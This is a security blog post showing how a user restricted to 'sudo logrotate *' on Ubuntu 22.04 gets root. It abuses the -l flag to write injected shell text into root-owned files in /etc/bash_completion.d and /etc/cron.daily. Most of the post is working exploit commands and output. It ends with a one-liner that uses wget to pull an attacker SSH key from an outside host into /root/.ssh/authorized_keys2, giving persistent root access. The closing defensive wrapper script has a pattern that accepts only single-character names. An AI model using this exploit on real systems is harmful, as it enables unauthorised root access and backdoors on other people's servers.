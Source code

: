 ```yaml
---
layout: post
title: "root with a single command: sudo logrotate"
author: "Joshua Rogers"
categories: security
---
```


The scenario is this: a brand new Ubuntu 22.04 server has an account which is restricted to running `sudo logrotate *`.  Can we get root? Short answer: Yes. I couldn't find much online about this type of exploitation of logrotate, so let's document something for future use.

---

Note: as mentioned, the _user_ is limited to _only_ running `sudo logrotate *`. No other command is possible. This could be either through some `rbash`  setup, some ForceCommand setting in ssh, or something else. -- The point is: the _user_ cannot run anything other than `sudo logrotate`:

```bash
user ALL=(ALL:ALL) NOPASSWD: /usr/sbin/logrotate *
```

So we need to find some functionality __built into logrotate__ which will let us elevate to unrestricted root.

---

Let's first look at logrotate's help text:
```bash
$ logrotate --help
Usage: logrotate [OPTION...] <configfile>
[..]
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of `/usr/bin/mail')
  -s, --state=statefile     Path of state file
  -l, --log=logfile         Log file or 'syslog' to log to syslog
```

My first instinct was to use something like `sudo logrotate -m '/usr/bin/uname'`. The manual states that this flag is for:
```bash
       -m, --mail command
              Tells logrotate which command to use when mailing logs.
```

A logrotate configuration file may specify an email address to send log files when they are rotated:
```
       mail address: When a log is rotated out of existence, it is mailed to address.  If no mail should be generated by a particular log, the nomail directive may be used.
       nomail: Do not mail old log files to any address.
       mailfirst: When using the mail command, mail the just-rotated file, instead of the about-to-expire file.
       maillast: When using the mail command, mail the about-to-expire file, instead of the just-rotated file (this is the default).
```

However, no logrotate configuration files were mailing logs:
```bash
$ grep -nrI 'mail' /etc/logrotate.*
$
```

---

So, why not just create a new configuration? No dice:
```bash
$ sudo logrotate -m '/usr/bin/uname' ./mail
Potentially dangerous mode on ./mail: 0664
error: Ignoring ./mail because it is writable by group or others.

$ chmod 600 mail

$ sudo logrotate -m '/usr/bin/uname' -f ./mail
error: Ignoring ./mail because the file owner is wrong (should be root or user with uid 0).
```
So we need a very specific type of file: owned by root, and only writable by root. I first thought some log files may work:
```bash
-rw-r--r--   1 root      root                   0 Oct  1 00:00 dpkg.log
-rw-r--r--   1 root      root                   0 Oct  1 00:00 alternatives.log
-rw-r-----   1 root      adm                46992 Sep  5 15:48 dmesg
..
```
but I couldn't find anything that would let me log to the file verbatim, or without any extra characters at the end (due to logrotate's functionality, we can effectively log to the beginning of many log files too, since we can just rotate the log if there is a configuration file in _/etc/logrotate.d/_ already.)

---

I then thought _/var/mail/root_:
```bash
$ ls -l /var/mail/root
-rw------- 1 root mail 1 Oct  1 01:07 /var/mail/root
```
It definitely fits our requirements. So let's try:
```bash
$ cat <<< "/home/user/log.log {
mail address@example.com
}" | mail -s "Email Subject" root

$ sudo logrotate -m '/usr/bin/uname' -f /var/mail/root
error: /var/mail/root:1 unknown option 'From' -- ignoring line
error: /var/mail/root:2 keyword 'Return' not properly separated, found 0x2d
```
Unfortunately logrotate completely bawks on the second line in the mail file:
```mail
From user@server  Sun Oct  1 01:10:45 2023
Return-Path: <user@server>
X-Original-To: root
Delivered-To: root@server
Received: by server (Postfix, from userid 1000)
	id D689B7E3DD; Sun,  1 Oct 2023 01:10:45 +0000 (UTC)
Subject: Email Subject
To: root@server
User-Agent: mail (GNU Mailutils 3.14)
Date: Sun,  1 Oct 2023 01:10:45 +0000
Message-Id: <20231001011045.D689B7E3DD@server>
From: User <user@server>

/home/user/log.log {
mail address@example.com
}
```
So, out of luck here, too.

---

I moved on to the `-s` flag that logrotate provides, and while it can create files as root (and overwrite those that exist), it didn't provide much value:
```bash
$ ls -l /tmp/test
-rw-r----- 1 root root 29 Oct  1 01:19 /tmp/test

$ cat /tmp/test # run as root
logrotate state -- version 2
```

---

Finally, I took a look at the `-l` flag:
```bash
$ sudo logrotate -l ./nonexist test
error: cannot stat test: No such file or directory

$ cat nonexist
error: cannot stat test: No such file or directory
Reading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

Handling 0 logs

$ ls -l nonexist
-rw-r--r-- 1 root root 952 Oct  1 01:28 nonexist
```
So we can write arbitrary data (**test** here is the arbitrary data, albeit with some garbage between it) to an arbitrary file which is owned by root. What more can we do with this?
```bash
user@server:/etc/bash_completion.d$ ls -l
total 4
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ sudo logrotate -l /etc/bash_completion.d/backdoor '2>/dev/null;uname -a; return 0;'
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory

user@server:/etc/bash_completion.d$ ls -l
total 8
-rw-r--r-- 1 root root 652 Sep 30 14:35 backdoor
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ cat backdoor
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory
acquired lock on state file /var/lib/logrotate/statusReading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

user@server:/etc/bash_completion.d$ exit
logout
Shared connection to server closed.

$ ssh user@server
Last login: Sat Sep 30 14:33:20 2023 from 10.0.0.0
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Basically, we can create an arbitrary file in `/etc/bash_completion.d/` which, if bash completion is enabled, will be sourced when a user logs into the server. The arbitrary data is `2>/dev/null;uname -a; return 0;` which effectively sends the first garbage data to _/dev/null_; executes `uname -a`; then returns, ignoring the rest of the junk data. This could be used to get a shell when a real user logs into the server, hopefully obtaining more access. Alternatively, we could create some file in _/etc/init.d/_, _/etc/profile.d/_, or overwrite _/etc/profile_. The possibilities are endless.

---

I wasn't happy with leaving it like this, so I took a further look. As it turns out, the permissions of the log files are retained too:
```bash
$ touch check-perms
$ chmod 777 check-perms
$ sudo logrotate -l ./check-perms test
error: cannot stat test: No such file or directory

$ ls -l check-perms
-rwxrwxrwx 1 user user 952 Oct  1 01:32 check-perms
```
What can we do with this?

Well, we can edit one of the scripts in _/etc/cron.daily/_:
```bash
user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 1395 Mar 12  2023 man-db

user@server:/etc/cron.daily$ sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;uname -a; exit 0;'
error: cannot stat 2>/dev/null;uname -a; exit 0;: No such file or directory

user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 652 Sep 30 14:50 man-db

user@server:/etc/cron.daily$ ./man-db
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
The next time the cronjob runs, our arbitrary code is executed: as root.

---

So, to answer the question: with only the `sudo logrotate` command available, can we obtain root? Yep; it's as simple as:
```bash
sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget host/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
```
then wait until the cronjob is run, and just ssh in. That's my solution to this problem, anyways.

---

And of course, the slightly more appropriate way to achieve the goal of allowing a normal user to rotate logs would be to allow sudo to run a wrapper script like this:
```bash
#!/bin/sh
case "$1" in
    [a-z0-9A-Z\-])
       /usr/sbin/logrotate -f /etc/logrotate.d/"$1"
        ;;
    *)
        exit 1
        ;;
esac
```
